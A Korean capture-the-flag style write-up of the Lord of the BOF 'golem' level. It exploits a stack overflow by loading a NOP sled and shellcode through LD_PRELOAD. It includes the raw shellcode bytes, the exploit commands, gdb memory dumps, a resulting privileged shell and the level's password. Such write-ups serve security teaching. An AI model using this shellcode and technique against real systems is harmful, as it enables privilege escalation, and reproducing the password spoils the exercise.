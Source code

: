 ```yaml
---
title: "[LOB]Level11. golem"
tags: [Wargame, LOB, Write-up]
author: eli_ez3r
key: 20180830
modify_date: 2018-08-30
article_header:
  type: cover
  image:
    src: 
---
```


## keyword : stack destroyer

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - golem
        - stack destroyer
*/
#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
	char buffer[40];
	int i;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);

        // stack destroyer!
    memset(buffer, 0, 44);
	memset(buffer+48, 0, 0xbfffffff - (int)(buffer+48));
}
```

'\x2f'없는 shell(48byte) = \xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81



buffer의 시작주소부터 EBP주소까지 0으로 초기화하고,  RET이후부터 0xbfffffff까지 0으로 초기화 한다.

앞문제에서 심볼릭 링크를 이용한 공격을 막혔음을 의미한다.



이럴경우 LD_PRELOAD 환경변수를 이용해야 한다.



> **LD_PRELOAD**
>
> 프로세스를 실행하는 중에 라이브러리를 로딩할 때, LD_PRELOAD 환경변수가 설정되어 있으면 해당 변수에 지정된 라이브러리를 먼저 로딩하고, 이중 libc 함수명과 동일한 함수가 있다면 해당 함수를 먼저 호출해 준다. 이러한 특성을 이용하여 후킹도 가능하다.



##### 1. LD_PRELOAD 환경 변수 등록

tmp.c 라는 파일을 만들고 해당 파일에 NOP코드와 쉘코드로 구성된 파일명으로 컴파일 한다. 이때 `-fPIC -shared` 옵션을 사용하여 컴파일한다. <u>쉘코드 안에는 '\x2f'가 있으면 안된다.</u>

그리고 export LD_PRELOAD 명령어로 해당 파일을 등록한다. <u>이때 파일명을 반드시 절대경로로 지정해야 한다.</u>

> -fPIC : Position-Independent Code의 약자이며 .o 파일을 동적라이브러리로 사용하도록 컴파일 하는 옵션
>
> -shared : 공유 라이브러리를 만드는 옵션

```sh
[skeleton@localhost tmp]$ gcc -fPIC -shared tmp.c -o `python -c 'print "\x90"*100+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'`
```

```sh
[skeleton@localhost tmp]$ export LD_PRELOAD="/home/skeleton/tmp/`python -c 'print "\x90"*100+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'`"
```



```sh
(gdb) x/32x $esp-3000
....
0xbffff4f4:	0xbffff500	0x400075bb	0x40017000	0x00002fb2
0xbffff504:	0x40013868	0xbffff6e4	0x4000380e	0x40014478
0xbffff514:	0x6d6f682f	0x6b732f65	0x74656c65	0x742f6e6f
0xbffff524:	0x902f706d	0x90909090	0x90909090	0x90909090
0xbffff534:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff544:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff554:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff564:	0x90909090	0x90909090	0x90909090	0x90909090
(gdb)
0xbffff574:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff584:	0x90909090	0xeb909090	0xc9315e11	0x6c8032b1
0xbffff594:	0x8001ff0e	0xf67501e9	0xeae805eb	0x32ffffff
0xbffff5a4:	0x306951c1	0x69697430	0x6f6a6330	0x5451e48a
0xbffff5b4:	0xb19ae28a	0x0081ce0c	0x40013868	0x4000220c
0xbffff5c4:	0xbffffaf5	0x00000000	0x00000000	0x00000000
```

쉘코드가 포함된 LD_PRELOAD 의 주소를 구한다. (0xbffff534 : NOP중간 주소)



```sh
[skeleton@localhost skeleton]$ ./golem `python -c 'print "A"*44+"\x34\xf5\xff\xbf"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA4���
bash$ my-pass
euid = 511
cup of coffee
bash$ id
uid=510(skeleton) gid=510(skeleton) euid=511(golem) egid=511(golem) groups=510(skeleton)
```

`python -c 'print "A"*44+"\x34\xf5\xff\xbf"'`

##### **golem / cup of coffee**